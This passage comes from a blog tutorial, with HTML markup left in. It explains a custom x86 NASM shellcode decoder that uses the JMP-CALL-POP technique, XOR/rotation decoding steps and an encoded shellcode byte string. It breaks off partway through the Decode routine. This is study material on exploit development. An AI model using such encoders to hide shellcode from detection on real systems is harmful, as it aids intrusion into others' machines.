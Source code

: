     pop esi

Decode:

    ; ...

    jmp short Decode

CallShellcode:

    call Shellcode
    encoded: db 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb</code></pre><figcaption><code>NASM</code> shellcode decoder template</figcaption></figure><p>As you can see, it is based on the famous <code>JMP-CALL-POP</code> technique in order to get a reference to the shellcode.</p><p>I chose to use this because the other one I knew (pushing groups of <code>4</code> bytes on the stack) would increase the size of the shellcode.</p><p>Anyways, now the routine <code>Decode</code> must be implemented to decode the encoded shellcode.</p><p>As mentioned previously, the first decoding operation is the following:</p><!--kg-card-begin: markdown--><blockquote>
<ol>
<li><code>XOR</code> each byte with the value of <code>shellcode_length_least_byte</code>, made exception for bytes equal to it</li>
</ol>
</blockquote>
<figure class="kg-card kg-code-card"><pre><code class="language-nasm">_start:
    ; clear some registers for later use
    xor ebx, ebx
    mul ebx
    mov ecx, eax

    jmp short CallShellcode

Shellcode:

    ; get a reference to the encoded shellcode
    pop esi

    ; copy the address of the first encoded assembly instruction into EBX
    ;   +4 -&gt; skip the first 4 auxiliary bytes 
    lea ebx, [esi+4]

    ; copy ROT_EVEN and ROT_ODD into AX
    ;   AL: ROT_EVEN
    ;   AH: ROT_ODD
    mov ax, WORD [esi]

    ; copy the XOR-ed length of the shellcode into CX
    ;   and XOR it again with ROT_EVEN:ROT_ODD to decode it
    mov cx, WORD [esi+2]
    xor cx, ax

    ; copy the length of the shellcode on the stack, for later use
    push ecx</code></pre><figcaption>Prepare registers before actually jumping to the <code>Decode</code> routine</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">Decode:

    ; copy the length of the shellcode (previous 'push ecx') into DL
    ; and check if the two bytes are the same
    mov dl, [esp]
    cmp dl, BYTE [ebx]

